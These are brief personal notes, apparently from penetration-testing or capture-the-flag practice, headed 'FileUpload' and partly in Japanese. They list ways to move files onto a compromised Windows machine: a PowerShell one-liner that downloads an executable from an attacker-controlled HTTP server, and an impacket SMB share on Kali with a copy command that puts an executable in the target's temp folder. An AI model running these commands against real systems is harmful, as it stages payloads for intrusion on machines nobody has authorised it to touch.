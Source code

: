# FileUpload


```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"
```

## smb使うパターン
on Kali

```
kali@kali:~$ sudo python /home/kali/impacket/examples/smbserver.py share .
```

on target 

```
c:\ > copy \\10.10.14.8\share\pr.exe  c:\windows\temp
```

## 参考になりそう

- https://binary-pulsar.hatenablog.jp/entry/2018/11/28/090000

